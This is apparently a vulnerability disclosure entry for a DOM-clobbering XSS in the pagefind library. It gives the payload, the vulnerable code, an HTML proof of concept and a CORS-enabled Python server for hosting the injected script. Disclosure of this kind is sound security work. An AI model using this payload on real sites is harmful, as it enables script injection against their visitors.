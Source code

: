 ## pagefind

### Meta

+ Library: pagefind
+ Stars: 3.3K
+ Version: v1.1.0
+ Fingerprint: `typeof PagefindUI !== 'undefined'`
+ Payload: ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk

### Library

Built locally
+ `https://github.com/cloudcannon/pagefind`

### Vulnerable Code Snippet

```javascript
en = new URL(document.currentScript.src).pathname.match(/^(.*\/)(?:pagefind-)?ui.js.*$/)[1]
```

```javascript
g = await import(`${r}pagefind.js`)
```

## PoC

```html
<html>
site
<img name="currentScript" src="blob:http://localhost:8000/ui.js"></img>

<link href="pagefind/pagefind-ui.css" rel="stylesheet">
<script src="pagefind/pagefind-ui.js"></script>
<div id="search"></div>
<script>
    window.addEventListener('DOMContentLoaded', (event) => {
        new PagefindUI({ element: "#search", showSubResults: true });
    });
</script>
</html>
```

run pagefind to create index. create `pagefind.js`, needs to be hosted with Access-Control-Allow-Origin set. 

```python
#!/usr/bin/env python
from http import server

class MyHTTPRequestHandler(server.SimpleHTTPRequestHandler):
    def end_headers(self):
        self.send_header("Access-Control-Allow-Origin", "*")
        server.SimpleHTTPRequestHandler.end_headers(self)


if __name__ == '__main__':
    server.test(HandlerClass=MyHTTPRequestHandler)
```
